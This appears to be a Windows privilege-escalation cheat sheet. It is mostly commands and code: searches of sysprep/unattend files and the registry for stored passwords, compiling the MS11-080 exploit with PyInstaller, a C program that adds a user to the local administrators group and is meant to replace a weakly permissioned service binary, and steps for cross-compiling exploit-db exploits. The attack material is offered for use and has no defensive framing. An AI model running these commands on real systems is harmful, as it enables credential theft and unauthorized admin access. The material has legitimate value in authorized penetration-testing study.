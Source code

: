 ```
c:\unattend.txt
```

```
c:\sysprep.ini - [Clear Text]
```

```
c:\sysprep\sysprep.xml - [Base64]
```

```
findstr /si password *.txt | *.xml | *.ini
```

```
reg query HKLM /s | findstr /i password > temp.txt
```

```
reg query HKCU /s | findstr /i password > temp.txt
```

```
reg query HKLM /f password /t REG_SZ /s
```

```
reg query HKCU /f password /t REG_SZ /s
```

Windows Python Installer to run a single .py script as an .exe file:

1. Install python on Windows machine.
2. Extract pyinstaller.zip
3. `python pyinstaller.py --onefile ms11-080.py`

Check insecure permissions, create malicious code and replace the .exe with insecure permissions:

```
icacls scsiaccess.exe
```

```c
#include <stdlib.h>

int main ()
{
  int i;
  i=system ("net localgroup administrators low /add");
  return 0;
}
```

```
i686-w64-mingw32-gcc -o scsiaccess.exe useradd.c
```

Cross compile exploits:


1. ```cp /usr/share/exploitdb/platforms/windows/local/<exploit>.c /tmp/```
2. ```cd /root/.wine/drive_c/MinGW/bin```
3. ```wine gcc –o w00t.exe /tmp/<exploit>.c -l lib```

